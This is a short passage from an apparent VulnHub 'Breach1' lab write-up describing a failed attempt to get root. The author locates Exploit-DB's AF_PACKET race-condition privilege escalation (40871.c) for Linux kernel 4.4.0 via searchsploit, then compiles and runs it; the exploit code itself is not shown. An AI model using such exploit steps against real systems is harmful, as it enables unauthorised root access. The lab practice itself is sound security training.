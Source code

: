 ## Root (kernel exploit) - Did not work
1. Kernel version
	![](images/Pasted%20image%2020220120062258.png)
2. Find exploit 
	- https://github.com/offensive-security/exploitdb/blob/master/exploits/linux_x86-64/local/40871.c	
		```
		┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/exploit/kernel]
		└─# searchsploit 40871.c
		Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation 
		```
3. Exploit
	```
	mv 40871.c chocobo_root.c
	gcc chocobo_root.c -o chocobo_root -lpthread
	./chocobo_root
	```
	![](images/Pasted%20image%2020220120063759.png)
	- Failed





	
	
	

